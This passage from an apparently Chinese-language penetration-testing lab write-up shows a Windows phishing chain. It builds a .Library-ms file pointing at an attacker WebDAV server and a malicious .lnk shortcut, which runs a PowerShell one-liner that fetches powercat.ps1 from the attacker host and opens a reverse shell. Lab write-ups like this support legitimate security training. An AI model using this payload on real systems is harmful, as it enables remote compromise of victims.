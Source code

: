 #### 2. 建立 Windows Library (.Library-ms) 檔案
登入 RDP (192.168.117.250)，建立 Windows Library 和 shortcut files
```
┌──(chw㉿CHW)-[~]
└─$ xfreerdp  /u:offsec  /p:lab /v:192.168.117.250
```
![image](https://hackmd.io/_uploads/rJPUKewh1g.png)\
建立 Library 文件 (`config.Library-ms`)
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.214</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
![image](https://hackmd.io/_uploads/HJxt-bP31g.png)


`.Library-ms` 檔案會讓 Windows 嘗試存取 WebDAV 伺服器\
接著將 `.Library-ms` 傳回 Kali
```
PS C:\Users\offsec\Desktop> scp config.Library-ms chw@192.168.45.214:/home/chw/beyond/
chw@192.168.45.214's password:
config.Library-ms
```

#### 3. 建立惡意 `.lnk` shortcut files
建立捷徑：\
![image](https://hackmd.io/_uploads/HJyB5lv3Jx.png)
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.214:8000/powercat.ps1'); powercat -c 192.168.45.214 -p 8888 -e powershell"
```
> - 從 Kali 伺服器 (http://192.168.45.214:8000) 下載 `powercat.ps1`\
> - 使用 PowerCat 建立反向 Shell (nc -nvlp 8888)\
> - 回連到 Kali 機器 (192.168.45.214:8888)

![image](https://hackmd.io/_uploads/rJ6dcxPnJe.png)\
接著傳回 WebDav\
![image](https://hackmd.io/_uploads/r15EfZP2ke.png)

